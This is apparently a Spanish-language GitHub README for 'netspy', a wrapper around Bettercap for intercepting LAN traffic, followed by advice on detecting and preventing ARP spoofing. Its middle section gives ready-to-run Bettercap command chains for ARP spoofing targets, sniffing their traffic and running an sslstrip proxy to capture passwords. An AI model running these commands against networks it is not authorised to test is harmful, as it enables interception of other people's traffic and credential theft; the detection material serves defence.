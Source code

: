 # Interceptacion Ethernet (MiTM)  de trafico LAN en claro:

### Estenarios:

## 1º.- Interceptación entre 2 dispositivos; 

•	Disponer de acceso y privilegios suficientes en uno de los 2 dispositivos A --//...B , e instalar, para interceptar el tráfico de algún interfaces, en alguno de los extremos: Wireshark, dsniff, Smartsnif nifsoft, Bettercap, Ethercap, Extension navegador, netspy, tcpdump, malware, etc..

## 2º.- red LAN con HUB o switch basico "sin inteligencia"

•	Instalar un HUB en el medio de una red, por su modo de funcionamiento rebotan todos los pquete en todas las MAC y paquete Ethernet, par interceptación.

•	Instalar un PC conectado al HUB, con la tarjeta de red en modo promiscuo, que escuche todo el tráfico de la red. Tener instalado Wireshark, netspy,etc.

•	Modificar MAC adreess de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escuche todo el tráfico de la red. 

•	Modificar MAC address de un PC y suplantar la de otro dispositivo objetivo, para escuchar el trafico 

## 3º.- En una red LAN con conmutadores Switch inteligente configurable :

•	Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando

•	En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por configuracion o por ARP Spoofing, ¡el trafico por el e interceptar el trafico!

•	En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, ¡para encaminar y poder ver e interceptar el trafico de otros dispositivos!

## 4º.- 6.	Posibilidad de añadir e instalar dispositivos HW:  pasarelas, FW , routers, swithes, etc.. equipos en medio de las redes para interceptación: HUBS, switches port mirronig, proxyes, TAB ..,,etc..

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">

### https://www.bettercap.org/ Beettercap combina ARP Spoofing y proxy trasparte

<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

## 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

## Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

## Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

## Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

para hacer interceptación; salvo que exista posibilidad de acceder o comprometer  un equipo con privilegios suficientes para instalar software o ser utilizado para MiTM, o que tengamos posbilidad de instlar en la red ficisamente algun dispositivo, siempre como elemento comun es necesario hacer ARP Spoofing y/o proxy trasparente: 

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la MAC Addres y por tanto tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. P.ej:

Herramientas de Detección:

•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.

•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.

•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.

Técnicas de Detección:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.

Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.  habilitar "client isolation",
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	implementar nuevo ARP firmado con certificado y clave PKI

https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com

